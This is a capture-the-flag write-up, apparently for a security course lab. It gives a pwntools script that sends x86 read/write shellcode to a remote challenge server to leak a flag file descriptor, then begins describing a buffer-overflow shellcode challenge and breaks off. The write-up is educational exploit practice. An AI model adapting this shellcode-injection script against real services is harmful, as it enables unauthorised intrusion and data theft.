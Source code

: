Carrying on from the lab this week, for this challenge all we needed was to read from the open file descriptor (fd = 1000) and write it to stdout (fd = 1).

1. Using pwntools function `asm()` to convert assembly to machine code, I wrote it to the stack. When the program executes the buffer, the shellcode would be able to write out the open flag file using a `read` and a `write` syscall.

```
#!/usr/bin/python3

from pwn import *

#p = process('./simple')
p = remote('plsdonthaq.me', 3001)
#pause()

code = asm('''

sub esp, 0x200
mov eax, 0x3
mov ebx, 1000
mov ecx, esp
mov edx, 0x200
int 0x80

mov edx, eax
mov eax, 0x4
mov ebx, 1
mov ecx, esp
int 0x80

''')

p.sendline(code)

p.interactive()
```

## shellz

---

FLAG{REDACTED}

---

Bit harder than the first one, this challenge combined writing shellcode with a buffer overflow. We're given a random pointer on the stack, along with a vulnerable buffer. All we now need to do is to get it to execute our shellcode which is somewhere on the stack, but not too far from the pointer itself.
If you're like me, and you watched some liveoverflow videos during the break, then this one is `tRiVIaL` :P

Here's some main points to think about:
